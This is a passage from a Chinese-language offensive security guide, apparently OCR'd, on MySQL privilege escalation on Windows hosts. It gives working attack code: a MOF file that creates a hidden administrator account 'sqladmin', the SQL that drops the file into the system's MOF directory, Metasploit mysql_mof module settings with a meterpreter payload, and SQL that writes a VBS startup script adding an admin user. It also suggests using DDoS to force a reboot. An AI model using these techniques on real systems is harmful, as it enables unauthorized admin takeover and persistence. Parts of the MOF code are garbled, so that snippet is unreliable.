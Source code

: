 ```ini
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = ;
Filter = ;
};
```
1. 保存为 1.mof,然后 mysql 执行:`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
2. mof 被执行的话,会帮我们添加一个叫 sqladmin 的用户.

**关于 Mof 提权的弊端**

我们提权成功后,就算被删号,mof 也会在五秒内将原账号重建,那么这给我们退出测试造成了很大的困扰,所以谨慎使用.那么我们如何删掉我们的入侵账号呢？
```
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

- MSF 模块
    ```bash
    use exploit/windows/mysql/mysql_mof
    set RHOSTS [ip]
    set USERNAME [user]
    set PASSWORD [pass]
    set payload windows/meterpreter/bind_tcp
    set RHOST [ip]
    set LPORT 4444
    exploit
    ```

**启动项提权**

在前两种方法都失败时,那可以试一下启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

提权条件
1. file_priv 不为 null
2. 已知 root 密码

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject (""wscript.shell"") " );
insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```
